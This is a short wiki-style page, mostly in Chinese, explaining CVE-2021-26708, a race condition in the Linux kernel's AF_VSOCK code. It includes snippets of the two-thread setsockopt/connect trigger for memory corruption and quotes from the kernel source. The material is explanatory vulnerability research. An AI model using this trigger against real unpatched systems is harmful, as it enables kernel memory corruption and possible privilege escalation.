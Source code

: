 <languages  />

פגיעות
------

<div lang="chinese" dir="ltr" class="mw-content-ltr">
這些漏洞是由`net/vmw_vsock/af_vsock.c`中的錯誤鎖定引起的條件競爭。這些條件競爭是在2019年11月添加VSOCK多傳輸支持的提交中隱式引入的，並被合併到Linux內核5.5-rc1版本中。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
`CONFIG_VSOCKETS`和`CONFIG_VIRTIO_VSOCKETS`在所有主要的GNU/Linux發行版中都作為內核模塊提供。當你為AF_VSOCK域創建一個套接字時，這些易受攻擊的模塊會自動加載。

</div>
    vsock = socket(AF_VSOCK, SOCK_STREAM, 0);

<div lang="chinese" dir="ltr" class="mw-content-ltr">
`AF_VSOCK`套接字的創建對非特權用戶來說是可用的，並不需要用戶名空間。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
內存破壞
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
下面詳細介紹CVE-2021-26708的利用，利用了`vsock_stream_etssockopt()`中的條件競爭，復現需要兩個線程，第一個線程調用`setsockopt()`：

</div>
      setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
                    &size, sizeof(unsigned long));

<div lang="chinese" dir="ltr" class="mw-content-ltr">
第二個線程在`vsock_stream_etssockopt()`試圖獲取套接字鎖時改變虛擬套接字傳輸，通過重新連接虛擬套接字實現：

</div>
    struct sockaddr_vm addr = {
            .svm_family = AF_VSOCK,
        };

        addr.svm_cid = VMADDR_CID_LOCAL;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

        addr.svm_cid = VMADDR_CID_HYPERVISOR;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

<div lang="chinese" dir="ltr" class="mw-content-ltr">
為了處理虛擬套接字的`connect()`，內核執行調用`vsock_assign_transport()`的`vsock_stream_connect()`。這個函數包含如下代碼：

</div>
         if (vsk->transport) {
                if (vsk->transport == new_transport)
                    return 0;

                /* transport->release() must be called with sock lock acquired.
                 * This path can only be taken during vsock_stream_connect(),
                 * where we have already held the sock lock.
                 * In the other cases, this function is called on a new socket
                 * which is not assigned to any transport.
                 */
                vsk->transport->release(vsk);
                vsock_deassign_transport(vsk);
            }
